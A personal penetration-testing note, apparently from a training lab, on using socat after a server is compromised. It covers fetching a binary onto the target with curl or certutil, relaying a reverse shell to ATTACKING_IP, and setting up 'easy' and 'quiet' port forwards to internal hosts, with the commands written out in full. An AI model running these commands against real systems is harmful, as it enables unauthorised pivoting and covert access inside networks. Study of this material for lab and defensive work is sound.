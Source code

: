 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

https://github.com/andrew-d/static-binaries/tree/master/binaries

https://github.com/3ndG4me/socat/releases

On Kali (inside the directory containing your Socat binary):

```bash - kali
sudo python3 -m http.server 80
```

Then, on the target:  
```bash - kali
curl $KALI/socat -o /tmp/socat-USERNAME && chmod +x /tmp/socat-USERNAME
```
OR
```command prompt - target
certutil -urlcache -split -f http://192.168.111.133/socatx64.exe
```


standard netcat listener on our attacking box 

![[rlwrap]]

Next, on the compromised server, use the following command to start the relay:  

```bash - target
./socat tcp-l:8000 tcp:ATTACKING_IP:443 &
```

_**Note:** the order of the two addresses matters here. Make sure to open the listening port first,_ then _connect back to the attacking machine._

From here we can then create a reverse shell to the newly opened port 8000 on the compromised server. This is demonstrated in the following screenshot, using netcat on the remote server to simulate receiving a reverse shell from the target server:

![[Pasted image 20220116094947.png]]

A brief explanation of the above command:

-   `tcp-l:8000` is used to create the first half of the connection -- an IPv4 listener on tcp port 8000 of the target machine.
-   `tcp:ATTACKING_IP:443` connects back to our local IP on port 443. The ATTACKING_IP obviously needs to be filled in correctly for this to work.
-   `&` backgrounds the listener, turning it into a job so that we can still use the shell to execute other commands.

The relay connects back to a listener started using an alias to a standard netcat listener: `sudo rlwrap -cAr nc -lvnp 443`.


**Port Forwarding -- Easy**

The quick and easy way to set up a port forward with socat is quite simply to open up a listening port on the compromised server, and redirect whatever comes into it to the target server. For example, if the compromised server is 172.16.0.5 and the target is port 3306 of 172.16.0.10, we could use the following command (on the compromised server) to create a port forward:  
```bash - target
./socat tcp-l:33060,fork,reuseaddr tcp:172.16.0.10:3306 &  
```

This opens up port 33060 on the compromised server and redirects the input from the attacking machine straight to the intended target server, essentially giving us access to the (presumably MySQL Database) running on our target of 172.16.0.10. The `fork` option is used to put every connection into a new process, and the `reuseaddr` option means that the port stays open after a connection is made to it. Combined, they allow us to use the same port forward for more than one connection. Once again we use `&` to background the shell, allowing us to keep using the same terminal session on the compromised server for other things.

We can now connect to port 33060 on the relay (172.16.0.5) and have our connection directly relayed to our intended target of 172.16.0.10:3306.


**Port Forwarding -- Quiet**

The previous technique is quick and easy, but it also opens up a port on the compromised server, which could potentially be spotted by any kind of host or network scanning. Whilst the risk is not _massive_, it pays to know a slightly quieter method of port forwarding with socat. This method is marginally more complex, but doesn't require opening up a port externally on the compromised server.

First of all, on our own attacking machine, we issue the following command:  
`socat tcp-l:8001 tcp-l:8000,fork,reuseaddr &`

This opens up two ports: 8000 and 8001, creating a local port relay. What goes into one of them will come out of the other. For this reason, port 8000 also has the `fork` and `reuseaddr` options set, to allow us to create more than one connection using this port forward.

Next, on the compromised relay server (172.16.0.5 in the previous example) we execute this command:  
`./socat tcp:ATTACKING_IP:8001 tcp:TARGET_IP:TARGET_PORT,fork &  
`

This makes a connection between our listening port 8001 on the attacking machine, and the open port of the target server. To use the fictional network from before, we could enter this command as:  
`./socat tcp:10.50.73.2:8001 tcp:172.16.0.10:80,fork &  
`

This would create a link between port 8000 on our attacking machine, and port 80 on the intended target (172.16.0.10), meaning that we could go to `localhost:8000` in our attacking machine's web browser to load the webpage served by the target: 172.16.0.10:80!

This is quite a complex scenario to visualise, so let's quickly run through what happens when you try to access the webpage in your browser:

-   The request goes to `127.0.0.1:8000`
-   Due to the socat listener we started on our own machine, anything that goes into port 8000, comes out of port 8001
-   Port 8001 is connected directly to the socat process we ran on the compromised server, meaning that anything coming out of port 8001 gets sent to the compromised server, where it gets relayed to port 80 on the target server.

The process is then reversed when the target sends the response:

-   The response is sent to the socat process on the compromised server. What goes into the process comes out at the other side, which happens to link straight to port 8001 on our attacking machine.
-   Anything that goes into port 8001 on our attacking machine comes out of port 8000 on our attacking machine, which is where the web browser expects to receive its response, thus the page is received and rendered.

We have now achieved the same thing as previously, but without opening any ports on the server!


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
